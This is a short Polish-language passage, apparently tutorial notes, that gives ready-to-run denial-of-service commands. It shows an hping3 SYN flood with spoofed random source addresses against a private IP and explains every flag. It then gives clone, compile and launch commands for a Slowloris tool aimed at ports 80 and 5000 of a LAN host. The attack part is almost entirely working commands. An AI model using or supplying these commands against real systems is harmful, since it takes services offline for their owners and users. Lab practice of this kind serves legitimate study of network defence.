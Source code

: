   

Przeprowadzenie ataku DDoS z losowych adresów ip

```sh

sudo hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.23

  

# opis opcji

- c 100000 - wysłanie 100000 pakietów

- d 120     - rozmiar pakietu 120 bajtów

- S         - wysłanie pakietów z flagą SYN

- w 64      - okno TCP o rozmiarze 64 kilobajty

- p 80      - atak portu 80

- flood     - zastępujemy nasz adres docelowy pakietami z ustawionym nagłówkiem SYN

- rand-source - jako źródło będą podawane losowe adresy ip

- 192.168.1.23 - adres atakowanego komputera ofiary

```

  

Przykład ataku DoS w warstwie aplikacji na serwer Apache z pomocą programu [SlowLorisDDoSAttackCPP](https://github.com/vsouda/SlowLorisDDoSAttackCPP).

  

Atak polega na otwieraniu wielu połączeń do serwera docelowego i pozostawia je otwarte tak długo, jak to możliwe. Odbywa się to przez otwarcie połączeń do serwera docelowego i wysłanie częściowego żądania, ale nie kończenie go. Z powodu cyklicznego powtarzania tej czynności serwer może osiągnąć maksymalną liczbę równoczesnych połączeń i odrzucać dodatkowe próby połączenia od innych klientów.

  

Instalacja `SlowLorisDDoSAttackCPP`

```sh

git clone https://github.com/vsouda/SlowLorisDDoSAttackCPP.git

cd SlowLorisDDoSAttackCPP

g++ slowlorisattackmultithread.cpp -std=c++0x -pthread -o slowloris2s

```

Przeprowadzenie ataku

```sh

./slowloris2s 192.168.1.15 5000 1000 1000

# Przeprowadzenie ataku na port 5000

  

./slowloris2s 192.168.1.15 80 1000 1000

# Przeprowadzenie ataku na port 80

```
